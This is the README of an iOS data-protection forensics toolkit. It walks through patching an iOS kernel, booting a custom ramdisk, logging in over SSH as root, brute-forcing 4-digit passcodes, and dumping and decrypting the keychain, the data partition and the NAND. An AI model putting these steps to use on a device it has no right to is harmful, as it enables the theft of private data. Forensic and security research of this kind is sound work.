 iPhone-DataProtection-ToolKit
=============================

Tools  for decrypting and hacking iOS systems

Supported devices
The tools have been tested on :

iPhone 3GS
iPhone 4 GSM
They should work as well on :
iPad 1
iPhone 4 CDMA
iPod touch 2G, 3G & 4G
iPhone 3G
For A5 devices, see issue 49.

A walkthrough for using the tools is available on youtube (thanks to Satish B). Tools are also available to decrypt iTunes Backups.

Requirements
Mercurial to download the tools from the repository
iOS 5.0 IPSW for the target device
even if the target device runs iOS 4 (iOS 5 kernel is backward compatible)
Mac OS X >= 10.6 : for builing the tools and ramdisk
Xcode and iOS SDK 4.x or 5.x. Make sure to install the command line tools
ldid
MacFUSE or OSXFuse
Python 2.7 (or 2.6) : for building a custom kernel and computer-side tools. Python 3 is not supported.
pycrypto
M2crypto
construct
progressbar
redsn0w : for booting the ramdisk
Mac OS X is only required to build the custom ramdisk. Once this is done, Windows can be used to boot the ramdisk and interact with it, either through ssh or using the python scripts provided. Linux is not supported.

Installing dependencies (Mac OS X)
curl -O http://networkpx.googlecode.com/files/ldid
chmod +x ldid
sudo mv ldid /usr/bin/

#fix if unix tools were not installed with xcode
sudo ln -s /Developer/Platforms/iPhoneOS.platform/Developer/usr/bin/codesign_allocate /usr/bin

#create symlink to the new xcode folder
sudo ln -s /Applications/Xcode.App/Contents/Developer /

#install OSXFuse for img3fs
curl -O -L https://github.com/downloads/osxfuse/osxfuse/OSXFUSE-2.3.4.dmg
hdiutil mount OSXFUSE-2.3.4.dmg
sudo installer -pkg /Volumes/FUSE\ for\ OS\ X/Install\ OSXFUSE\ 2.3.pkg -target /
hdiutil eject /Volumes/FUSE\ for\ OS\ X/

#you will need these python modules on Windows as well
sudo easy_install M2crypto construct progressbar setuptools
sudo ARCHFLAGS='-arch i386 -arch x86_64' easy_install pycrypto
Building custom ramdisk & kernel (Mac OS X)
hg clone https://code.google.com/p/iphone-dataprotection/ 
cd iphone-dataprotection

make -C img3fs/

curl -O -L https://sites.google.com/a/iphone-dev.com/files/home/redsn0w_mac_0.9.12b2.zip
unzip redsn0w_mac_0.9.12b2.zip
cp redsn0w_mac_0.9.12b2/redsn0w.app/Contents/MacOS/Keys.plist .

python python_scripts/kernel_patcher.py IOS5_IPSW_FOR_YOUR_DEVICE
    Decrypting kernelcache.release.n88
    Unpacking ...
    Doing CSED patch
    Doing getxattr system patch
    Doing _PE_i_can_has_debugger patch
    Doing IOAESAccelerator enable UID patch
    Doing AMFI patch
    Patched kernel written to kernelcache.release.n88.patched
    Created script make_ramdisk_n88ap.sh, you can use it to (re)build the ramdisk

sh ./make_ramdisk_n88ap.sh
Using the ramdisk
The first step is to boot the ramdisk and custom kernel. This can be done easily on OSX or Windows using redsn0w (follow redsn0w instructions to put the device in DFU mode).

./redsn0w_mac_0.9.12b2/redsn0w.app/Contents/MacOS/redsn0w -i IOS5_IPSW_FOR_YOUR_DEVICE -r myramdisk.dmg -k kernelcache.release.n88.patched
After redsn0w is done, the ramdisk should boot in verbose mode. Once "OK" appears on the screen, the custom ramdisk has successfully started. The device is now accessible using ssh over usbmux. Run the following command (in a separate terminal window) to setup port redirections:

#./tcprelay.sh
python usbmuxd-python-client/tcprelay.py -t 22:2222 1999:1999
SSH is now accessible at localhost:2222.

#if ~/.ssh/id_rsa.pub exists on the host, it was copied to the ramdisk so no password is required.
#otherwise root password is alpine
ssh -p 2222 root@localhost
Port 1999 is used by the demo_bruteforce.py script. It connects to the custom restored_external daemon on the ramdisk, collects basic device information (serial number, UDID, etc.), unique device keys (keys 0x835 and 0x89B), downloads the system keybag and tries to bruteforce the passcode (4 digits only). If the bruteforce is successfull it will also download the keychain database.

python python_scripts/demo_bruteforce.py
The results are stored in a plist file named after the device's data parititon volume identifier (a folder named after the device UDID is also created). This plist file is required for the other python scripts to operate correctly. For instance, the keychain database contents can be displayed using keychain_tool.py.

python python_scripts/keychain_tool.py -d UDID/keychain-2.db UDID/DATAVOLUMEID.plist
A shell script is provided to create a dd image of the data parititon that will be placed in the device UDID directory.

./dump_data_partition.sh
The image file can be opend using the modified HFSExplorer that will decrypt the files "on the fly". To decrypt it permanently (for use with standard tools), the emf_decrypter.py script can be used. Both tools depend on the aforementioned plist file being in the same directory as the disk image.

#do a dry run to avoid crashing halfway
python python_scripts/emf_decrypter.py --nowrite UDID/data_DATE.dmg

#if no errors then decrypt the image in place
python python_scripts/emf_decrypter.py UDID/data_DATE.dmg
Finally, the HFS journal file can be carved to search for deleted files. Keep in mind that only a very few number of files (or even none at all) can be recovered that way.

python python_scripts/emf_undelete.py UDID/data_DATE.dmg
NAND acquisition & deleted files recovery
For NAND access it is recommanded to use the nand-disable boot flag.

./redsn0w_mac_0.9.12b2/redsn0w.app/Contents/MacOS/redsn0w -i IOS5_IPSW_FOR_YOUR_DEVICE -r myramdisk.dmg -k kernelcache.release.n88.patched -a "-v rd=md0 nand-disable=1"
Once the ramdisk is booted, run the ios_examiner script without parameters:

python python_scripts/ios_examiner.py
Connecting to device : 0000000000000000000000000000000000000000
Device model: iPhone 4 GSM
UDID: 0000000000000000000000000000000000000000
ECID: 000000000000
Serial number: 00000000000
key835: 00000000000000000000000000000000
key89B: 00000000000000000000000000000000
Chip id 0x3294e798 banks per CE physical 1
NAND geometry : 16GB (4 CEs (1 physical banks/CE) of 4100 blocks of 128 pages of 8192 bytes data, 12 bytes metdata)
Searching for special pages...
Found DEVICEUNIQUEINFO, NANDDRIVERSIGN, DEVICEINFOBBT special pages in CE 0
NAND signature 0x43313131 flags 0x10006 withening=1, epoch=1
Effaceable generation 204
Effaceable CRC OK
Found effaceable lockers in ce 3 block 1 page 96
Lockers : BAG1, DONE, Dkey, LwVM
Found DEVICEUNIQUEINFO, serial number=00000000000
Using VSVFL
VSVFL context open OK
YaFTL context OK, version=CX01 maxIndexUsn=137419 context usn=137419
LwVM header CRC OK
cprotect version : 4 (iOS 5)
iOS version:  5.1.1
Keybag state: locked
(iPhone4-data) /
At this point you can enter commands in the ios_examiner shell.

(iPhone4-data) / bruteforce
Enter passcode or leave blank for bruteforce:

Passcode "" OK
Keybag state: unlocked
Save device information plist to [0000000000.plist]: iphone4.plist
(iPhone4-data) / nand_dump iphone4_nand.bin
Dumping 16GB NAND to iphone4_nand.bin
100% |########################################################################|
NAND dump time : 0:48:51.799000
SHA1: 0000000000000000000000000000000000000000
(iPhone4-data) / exit
You can then relaunch ios_examiner with the nand image and device plist files as parameters:

python python_scripts/ios_examiner.py iphone4_nand.bin iphone4.plist
Use the "undelete" command to recover deleted files from the nand image. The undelete feature is still experimental but should give better results than the HFS journal carving technique. The "dd" command can be used to extract the data partition as a regular dd image.

ios_examiner commands
system/data: switch between system and data partition
dd filename.dmg: dump current partition to filename.dmg
cd/ls/pwd: browse current partition
open/plist filename: display file
xxd filename [length]: show hexdump
ptable: display partition table
xattr filename: display extended attributes
cprotect filename: display decoded cprotect attribute
protected_files: lists files that use protection classes != NSProtectionNone (files that cannot be accessed without the passcode)
nand_dump nanddump.bin: dumps NAND memory of currently connected device to nanddump.bin
bruteforce: asks for system keybag passcode or tries to bruteforce 4-digit passcodes
keybag: display system keybag state
keychain: display keychain items
undelete: try to recover deleted files (only YaFTL is supported)
img3: extract img3s (NAND-only devices)
reboot: reboot connected device
help: list available commands
FAQ
The following AppleBCMWLANCore error message appears on screen after booting the ramdisk

AppleBCMWLANCore:handleIOKitBusyWatchdogTimout(): Error, no successful firmware download after 60000 ms!! Giving up...
This is normal, Wi-Fi is not initialized when booting the ramdisk environment.

Photorec only recovers existing files, even after running emf_decrypter

Unallocated space cannot be decrypted with emf_decrypter, because each file uses a different encryption key.
